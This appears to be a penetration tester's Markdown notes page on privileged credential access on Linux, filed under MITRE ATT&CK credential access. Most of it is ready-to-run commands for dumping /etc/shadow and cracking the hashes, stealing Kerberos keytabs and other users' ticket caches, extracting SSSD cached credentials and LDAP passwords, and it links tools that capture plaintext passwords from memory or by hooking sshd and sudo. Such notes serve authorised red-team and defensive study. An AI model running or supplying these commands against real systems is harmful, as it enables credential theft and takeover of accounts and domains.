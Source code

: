 ```yaml
---
title: Privileged Linux Credential Access
---
```


[[notes/mitre-attack/credential-access]] as root on [[notes/linux/index]].

Also check everything from [[notes/linux/credential-access-user]].

# Login Passwords

Dump password hashes of local users.

~~~ bash
cat /etc/shadow
cat /etc/passwd
~~~

And crack weak hashes with [[notes/tools/john]].

~~~ bash
unshadow ./passwd ./shadow > ./hashes.txt
john --wordlist=./rockyou.txt ./hashes.txt
~~~

# Kerberos

Keytab files contain a principal name and encrypted keys.
They allow a user or script to authenticate to Kerberos without entering a password.
Keytabs are commonly used in cron scripts.

Dump the keytab of the computer account.

~~~ bash
klist -k -Ke
cat /etc/krb5.keytab
find / -type f -iname '*.keytab' -readable ! -path '/dev/*' ! -path '/proc/*' ! -path '/sys/*' -ls 2> /dev/null
~~~

Request a TGT and authenticate with a keytab.

~~~ bash
kinit administrator@CORP.LOCAL -k -t /tmp/administrator.keytab && klist
~~~

Dump Kerberos TGTs of other users.

~~~ bash
ls -la /var/lib/sss/db/ccache_*
grep -ahoP 'KRB5CCNAME=.*?\x00' /proc/*/environ 2> /dev/null | sort -Vu
find / -type f '(' -iname 'krb5cc_*' -or -iname 'ccache_*' ')' -readable ! -path '/dev/*' ! -path '/proc/*' ! -path '/sys/*' -ls 2> /dev/null
~~~

Download `/var/lib/sss/db/cache_*.ldb` files and try to crack the cached credentials.

~~~ bash
tdbdump ./cache_*.ldb | grep -ia passw
hashcat -O -w 3 -a 0 -m 1800 '$6$...' ./rockyou.txt
~~~

Fetch LDAP passwords from `/etc/sssd/sssd.conf` and decode them with [sss_deobfuscate](https://github.com/mludvig/sss_deobfuscate) ([source](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adds-linux/#extract-accounts-from-etcsssdsssdconf)).

~~~ bash
grep 'ldap_.*_authtok' /etc/sssd/sssd.conf
~~~

Untested tools:

- [LinikatzV2](https://github.com/Orange-Cyberdefense/LinikatzV2), can extract plain passwords from memory
- [tickey](https://github.com/TarlogicSecurity/tickey), extract Kerberos tickets from all users on Linux

# Applications

Untested tools:

- [mimipenguin](https://github.com/huntergregal/mimipenguin), dump passwords from Gnome Keyring, vsftpd, Apache basic auth and sudo
- [3snake](https://github.com/blendin/3snake), hook sshd and sudo to capture plain passwords

References:

- [SSHD Injection and Password Harvesting](http://web.archive.org/web/20230521144411/https://jm33.me/sshd-injection-and-password-harvesting.html)
- [Stealing SSH credentials](http://web.archive.org/web/20201109040134/https://mthbernardes.github.io/persistence/2018/01/10/stealing-ssh-credentials.html)
